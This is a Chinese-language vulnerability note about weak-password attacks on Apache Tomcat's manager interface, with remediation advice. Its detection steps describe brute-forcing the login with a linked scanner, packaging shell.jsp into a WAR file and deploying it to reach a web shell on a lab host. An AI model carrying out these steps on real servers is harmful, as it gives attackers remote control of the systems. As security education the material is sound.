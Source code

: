 #### Weak password

##### 漏洞描述

弱口令属于常见漏洞，也是在漏洞挖掘时一个很好的突破口；而tomcat如果存在弱口令，那将会影响系统被攻击者获取系统权限。

##### 影响范围

所有版本

##### 漏洞原理

口令设置较弱，可直接爆破。

##### 漏洞检测

1、URL访问

```
http://192.168.3.167:8080/
```

![image-20200813163502206](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/weakpassword/images/image-20200813163502206.png)

2、点击“Server Status”

![image-20200813163542988](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/weakpassword/images/image-20200813163542988.png)

3、尝试爆破

[脚本](https://github.com/magicming200/tomcat-weak-password-scanner)

![image-20200813163718308](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/weakpassword/images/image-20200813163718308.png)

4、生成war包

```shell
➜  server jar -cvf  shell.war shell.jsp
```

![image-20200813163839974](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/weakpassword/images/image-20200813163839974.png)

5、部署war包

![image-20200813164753751](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/weakpassword/images/image-20200813164753751.png)

6、访问

```
http://192.168.3.167:8080/shell/shell.jsp
```

![image-20200813164812341](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/weakpassword/images/image-20200813164812341.png)

![image-20200813164838466](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/weakpassword/images/image-20200813164838466.png)

##### 漏洞修复

1、设置强壮密码

2、平时不用，不允许登录

参考

```
https://github.com/magicming200/tomcat-weak-password-scanner
```

